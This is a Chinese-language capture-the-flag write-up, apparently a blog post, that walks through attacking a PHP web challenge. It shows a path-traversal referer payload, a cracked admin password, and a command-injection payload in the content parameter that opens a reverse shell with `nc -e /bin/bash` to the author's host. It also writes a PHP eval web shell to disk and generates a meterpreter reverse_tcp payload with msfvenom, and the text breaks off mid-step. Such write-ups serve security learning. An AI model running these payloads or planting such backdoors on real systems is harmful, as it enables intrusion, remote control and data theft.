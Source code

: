 ```
  //change the content
  if($content){
    $file = file_get_contents("./admin.php");
    $file = preg_replace("/secret = '.*'/", "secret = '{$content}'", $file);
    file_put_contents('./admin.php', $file);
  }

}
```

第5行`parse_url`解析我们只需要任意`<字母、数字>://<字母、数字>`就可以让他返回`host=第二个<字母、数字>`

- PHP协议的容错性：PHP在遇到一个不认识的协议的时候，会抛出一个warning，并且将协议设置为`null`。后面，在协议是`null`或者是`file`时，会进行本地文件操作。也就是说，默认情况下，如果你没加协议，或者加了个不存在的协议，或者协议名字是`file`，都会被认为是本地文件的相关操作

playload：

```
referer: 0://localhost/../../../（一个一个加，直到读到文件为止）../hint.txt
```

回显告诉了`username`是`pig_can_fly`并且说password需要在另一台服务器上面获取，我们点击访问他给的ip，发现就是一个很简单的union注入，得到了`password`的md5值：`dc3565645d8002becb5fd7977aeef3e1`

暴力破解之后是：`admin_password`

GET传过去之后出现了一段JS代码，不过我没做（233333）

`content`变量那里可以直接利用[file_put_contents漏洞](https://www.cnblogs.com/wh4am1/p/6607837.html)RCE

playload（GET传值）：

```
?username=pig_can_fly&password=admin_password&content=a\';echo+`nc+-e+/bin/bash+我的ip+端口`//
```

我之前试了很多个，不知道究竟是哪个起了作用，后来问了问其他人，好像只有反引号才能起作用。

回到VPS监听端口，果然收到了一份新鲜的shell；

赶紧重新写一个后门：

```
echo "<?php @eval(\$_POST['123']);?>" > wh1sper.php
```

蚁剑连接，拿到shell；

高兴了好一阵，不过并没有找到flag，问了出题人，说是在内网。。。

联想到NCTF2019的true xml cookbook，读取`/etc/hosts`文件和`/proc/net/arp`，推测内网存活主机`10.0.0.1-3`，2是自己，flag可能在3上面。

于是在VPS上面装了MSF，通过msf的一些模块探测到了一些信息。

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

在本地生成了`shell.elf`文件通过蚁剑上传到目录，继续在msf里面执行：
